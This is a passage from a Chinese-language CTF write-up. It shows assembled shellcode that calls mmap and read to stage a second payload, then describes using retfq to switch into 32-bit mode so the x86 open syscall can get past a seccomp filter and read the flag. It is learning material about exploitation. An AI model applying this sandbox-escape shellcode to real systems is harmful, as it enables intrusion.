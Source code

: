 这里因为我们要再读取一段shellcode进来, 但是没有啥地址, 于是我先mmap 获取一块地址, 然后read进来新的shellcode, 

```pyhton
# read(0, 0x40404040, 0x1010) ax=3
read = f('''
mov rsi, 0x40404040;
pushw 0x1010;
pop rdx;
xor rdi, rdi;
push 0x3;
pop rax;
syscall;
''')
print("read: ", read)

# mmap(0x40404040, 0xff, 7, 34, 0, 0) ax=9
mmap = f('''
mov rdi, 0x40404040;
push 0x7f;
pop rsi;
push 7;
pop rdx;
push 34;
pop rcx;
xor r8, r8;
xor r9, r9;
push 9;
pop rax;
syscall;
''')
print("mmap: ", mmap)

sh = mmap + read 
```

## 使用32位的系统调用

因为要先打开flag然后读取,  这里我们需要一个open, 看下系统调用号:

```
x64    syscall_number  x86
fstat       5           open 
alarm       37          kill
read        0           restart_syscall      
mmap        9           link
exit_group  231         fgetxattr
```

我们切换到32位模式会有一个open函数,于是我们在前面read结束以后, 使用retfq, 然后再retfq回来, 

关于这个指令: 从栈中弹出ip和cs, 通过控制cs可以控制是32位还是64位, 

跳转到64位: cs=0x33, 跳转到32位: cs=0x23, 
